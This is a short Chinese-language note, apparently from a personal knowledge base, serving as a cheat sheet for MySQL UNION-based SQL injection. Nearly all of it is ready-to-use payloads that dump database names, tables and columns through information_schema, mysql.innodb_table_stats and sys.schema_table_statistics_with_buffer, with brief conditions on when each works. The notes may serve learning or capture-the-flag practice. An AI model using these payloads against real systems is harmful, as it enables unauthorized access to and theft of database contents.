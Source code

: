 基本原理都是利用[[group_concat]]以及mysql的**元数据库**或**元表格**

下面假设查询结果为三个字段，且注入点为2

---
# 使用`imformation_schema`数据库
## 爆库
### 获取当前数据库
```sql
1' union select 1,database(),3;#
```
### 爆出所有数据库
```sql
1' union select 1,group_concat(schema_name),3 from information_schema.schemata;#
```
## 爆表
```sql
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='<database_name>';#
```
## 爆字段
```sql
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='<table_name>';#
```

---
# 使用`mysql.innodb_table_stats`表

![[Pasted image 20221125170222.png]]
## 爆库
```sql
1' union select 1,group_concat(database_name),3 from mysql.innodb_table_stats#
```

## 爆表
```sql
1' union select 1,group_concat(table_name),3 from mysql.innodb_table_stats#
```

---

# 使用`sys.schema_table_statistics_with_buffer`表
## 前提条件
- `mysql > 5.7`
- `root`用户

## 爆表
```sql
1' union select 1,group_concat(table_name),3 from sys.schema_table_statistics_with_buffer where table_schema=<database_name>#
```

#Web #SQL注入 #联合注入 